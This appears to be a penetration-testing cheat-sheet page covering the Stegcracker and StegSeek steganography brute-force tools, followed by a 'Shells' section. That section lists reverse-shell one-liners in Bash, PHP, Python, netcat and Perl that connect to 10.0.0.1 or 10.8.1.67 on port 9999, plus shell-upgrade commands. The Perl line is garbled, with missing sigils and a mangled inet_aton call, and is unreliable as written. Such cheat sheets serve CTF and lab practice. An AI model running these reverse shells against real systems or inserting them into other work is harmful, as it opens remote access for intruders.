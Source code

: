 
#### Stegcracker

```markdown
#usage: 
stegcracker <file> [<wordlist>]

This is a steganography brute-force utility to uncover hidden data inside files. Accepted file types are: jpg, jpeg, bmp, wav, au

StegCracker has been retired following the release of StegSeek, which will blast through the rockyou.txt wordlist within 1.9 second as opposed 
to StegCracker which takes ~5 hours. StegSeek can be found at: https://github.com/RickdeJager/stegseek

#usage:
stegseek  <file> [<wordlist>]
```

--------

## Extra

----------

#### Shells

```sh
#Reverse shells
Bash	bash -i >& /dev/tcp/10.0.0.1/9999 0>&1
PHP	php -r '$sock=fsockopen("10.0.0.1",9999);exec("/bin/sh -i <&3 >&3 2>&3");'
Python	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
NC v1	nc -e /bin/sh 10.0.0.1 9999
NC v2	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.1.67 9999 >/tmp/f
Perl	perl -e 'use Socket;i="10.0.0.1";i="10.0.0.1";p=9999;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in(p,inet\_aton(p,inet_aton(i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

#Shell Upgrades
Perl	perl -e 'exec "/bin/bash";'
Bash	echo os.system('/bin/bash')

#Python3
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
Ctrl + Z
stty raw -echo; fg
stty rows 38 columns 116

```
